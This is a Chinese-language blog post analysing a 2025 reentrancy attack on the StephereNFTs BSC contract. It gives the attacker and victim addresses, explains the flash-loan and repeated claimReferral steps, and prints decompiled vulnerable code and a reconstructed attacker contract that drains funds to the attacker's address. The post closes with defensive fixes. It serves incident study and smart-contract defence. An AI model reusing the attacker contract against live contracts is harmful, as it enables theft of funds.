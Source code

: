 ```yaml
---
title: "StephereNFTs 遭遇重入攻击分析"
date: 2025-02-21T11:25:05
featured_image: "/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png"
tags: ["web3安全事件","合约审计"]
description: "StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金"
---
```

## 攻击概述
2025 年 2 月 ，StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金。

### 参考地址：  
https://nickfranklin.site/2025/02/21/stepheronfts-attacked/


## 相关地址
- **受害合约地址**：`0x9823e10a0bf6f64f59964be1a7f83090bf5728ab`
- **攻击者地址**：`0xFb1cc1548D039f14b02cfF9aE86757Edd2CDB8A5`
- **恶意合约1**：`0xd4c80700ca911d5d3026a595e12aa4174f4cacb3`
- **恶意合约2**：`0xb4c32404de3367ca94385ac5b952a7a84b5bdf76`
- **恶意合约3**：`0x8f327e60fb2a7928c879c135453bd2b4ed6b0fe9`
- **攻击交易 (tx)**：https://bscscan.com/tx/0xef386a69ca6a147c374258a1bf40221b0b6bd9bc449a7016dbe5240644581877

## 攻击步骤解析
### 1. 部署恶意合约

攻击者首先部署了多个恶意合约，以便后续进行重入攻击。

<center>{{< figure src="/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png" width="100%" title="图1" >}}</center>


### 2. 通过闪电贷获取初始资金
攻击者利用闪电贷借入了一笔资金，用于后续触发合约的奖励机制。

<center>{{< figure src="/images/424903484-37fadaff-fa68-43cf-b0a7-c7d5f971b4c2.png" width="100%" title="图2" >}}</center>


<center>{{< figure src="/images/424903603-00bd518d-2372-4e43-a7c6-f7b91f26245d.png" width="100%" title="图3" >}}</center>
通过购买资产获取奖励资格

### 3. 通过重入攻击不断获取受害合约资金
攻击者发现受害合约的奖励机制存在漏洞：
- 在领取奖励时，合约会检查推荐奖励的数量。
- 但由于合约先发放奖励，再将奖励计数清零，导致可以在清零前重复调用领取奖励函数，实现重入攻击。

攻击者利用这一漏洞，不断调用恶意合约，通过递归方式重复领取奖励，最终盗取了大量资金。

## 关键漏洞分析
该攻击的核心漏洞在于 **先发奖励后清零** 的逻辑顺序问题，导致了经典的重入攻击 (Reentrancy Attack)。

**漏洞代码示例**：
```solidity
function claimReferral(address varg0) public nonPayable {  find similar
    require(msg.data.length - 4 >= 32);
    require(!_paused, Error('Pausable: paused'));
    require(owner_5[msg.sender][varg0], Error('not-enough-money'));
    0x2d1e(varg0, owner_5[msg.sender][varg0], msg.sender);
    owner_5[msg.sender][varg0] = 0;
    emit 0x9c21c092f05b64df5ae0cbf557b9bf4e9695cdbeaa13fcf9a0831bce847f0cfb(msg.sender, varg0, owner_5[msg.sender][varg0]);
}
```


攻击者可以重复调用重新调用 `claimReferral`，从而在清零前多次获取奖励。

具体发送的函数
```solidity
function 0x2d1e(address varg0, uint256 varg1, address varg2) private { 
    if (varg0) {
        MEM[MEM[64] + 36] = varg2;
        MEM[MEM[64] + 68] = varg1;
        0x2c96(100 + MEM[64], 0xa9059cbb00000000000000000000000000000000000000000000000000000000, varg0);
        return ;
    } else {
        v0, /* uint256 */ v1 = varg2.call().value(varg1).gas(msg.gas);
        if (RETURNDATASIZE() != 0) {
            v2 = new bytes[](RETURNDATASIZE());
            v1 = v2.data;
            RETURNDATACOPY(v1, 0, RETURNDATASIZE());
        }
        require(v0, Error('transfer-BNB-failed'));
        return ;
    }
}
```

另外这里展示下黑客用来实现反复调用的第三部分恶意合约：
(使用LLM处理了一下)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract TokenHandler {
    address private owner;
    address private token1;
    address private token2 = 0xFb1cC1548d039f14b02cfF9ae86757edD2cdB8A5;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "invalid sender");
        _;
    }

    function func_6f2db99c() external {
        // 调用 owner 的某个函数 (e61aee51)
        //重复调用claimReferral函数
        (bool success, ) = owner.call(abi.encodeWithSignature("e61aee51()"));
        require(success);
    }

    function withdraw(address token, uint256 amount) external onlyOwner {
        // 获取 token 在调用者地址的余额
        (bool success1, bytes memory data) = token.call(
            abi.encodeWithSelector(0x70a08231, address(this))
        );
        require(success1);
        uint256 balance = abi.decode(data, (uint256));

        // 调用 withdraw (0x2e1a7d4d)
        (bool success2, ) = token.call(abi.encodeWithSelector(0x2e1a7d4d, balance));
        require(success2);

        // 调用 token 的 transfer 函数
        (bool success3, ) = token.call(
            abi.encodeWithSelector(0xa9059cbb, msg.sender, balance)
        );
        require(success3);

        // 向 msg.sender 发送 1 wei
        (bool success4, ) = msg.sender.call{value: 1}("");
        require(success4);

        // 向 token2 发送当前合约余额
        (bool success5, ) = token2.call{value: address(this).balance}("");
        require(success5);
    }

    function executeCall() internal {
        // 复杂的外部调用逻辑，可能涉及 delegatecall 或其他操作
        // 这里简化表示
        (bool success, ) = token1.call{value: address(this).balance}("");
        require(success, "call failed");

        // 调用 token1 的函数 0x50eb1dfe
        (bool success2, ) = token1.call(
            abi.encodeWithSelector(0x50eb1dfe, token2, address(this).balance)
        );
        require(success2);
    }
}
```

## 解决方案
为了防止类似的重入攻击，可以采取以下措施：
1. **使用 Checks-Effects-Interactions 模式**：
   - 先更新状态，再进行外部调用，以避免重入风险。
2. **使用 `ReentrancyGuard`**：
   - 通过 OpenZeppelin 提供的 `nonReentrant` 修饰符，防止函数的嵌套调用。
3. **避免直接调用 `call` 进行转账**：
   - 推荐使用 `transfer` 或 `send`，虽然限制了 GAS，但能降低重入攻击的风险。




<script src="https://giscus.app/client.js"
        data-repo="Passi0n1/passi0n1.github.io"
        data-repo-id="R_kgDOOOjm3g"
        data-category="Announcements"
        data-category-id="DIC_kwDOOOjm3s4Coczr"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="1"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="zh-CN"
        crossorigin="anonymous"
        async>
</script>